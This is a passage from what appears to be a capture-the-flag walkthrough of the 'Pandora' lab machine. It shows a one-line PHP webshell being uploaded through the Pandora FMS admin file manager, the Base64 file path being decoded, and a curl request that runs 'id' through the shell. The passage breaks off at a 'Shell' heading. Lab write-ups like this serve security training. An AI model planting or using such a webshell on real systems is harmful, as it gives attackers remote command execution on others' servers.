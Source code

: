 There’s a lot more options on the left hand menu as well:

![image-20220519135840970](https://0xdfimages.gitlab.io/img/image-20220519135840970.png)

#### Upload Webshell

I’ll go to the File manager page though “Admin tools” > “File Manager”, and click the button to upload files. I’ll give it `0xdf.php`, a simple PHP webshell:

```

<?php system($_REQUEST['cmd']); ?>

```

It accepts it:

![image-20220519140526307](https://0xdfimages.gitlab.io/img/image-20220519140526307.png)

And the file shows up in the list of files, in red, with a warning when I hover over it:

![image-20220519140554126](https://0xdfimages.gitlab.io/img/image-20220519140554126.png)

Clicking the link actually downloads the file, which isn’t what I want.

#### Find Webshell

The link to the file is `/pandora_console/include/get_file.php?file=L3BhbmRvcmFfY29uc29sZS9pbWFnZXMvMHhkZi5waHA%3D&hash=fac31c21cdd95f26f4a11073d7828e2c`. The `file` parameter looks like Base64, and it does decode to the file URL:

```

daniel@pandora:/var/www/pandora/pandora_console$ echo "L3BhbmRvcmFfY29uc29sZS9pbWFnZXMvMHhkZi5waHA=" | base64 -d
/pandora_console/images/0xdf.php

```

Alternatively, since I have a shell as daniel, I could just find the file:

```

daniel@pandora:/var/www/pandora/pandora_console$ find . -name 0xdf.php
./images/0xdf.php

```

Either way, the webshell works:

```

oxdf@hacky$ curl http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=id
uid=1000(matt) gid=1000(matt) groups=1000(matt)

```

#### Shell
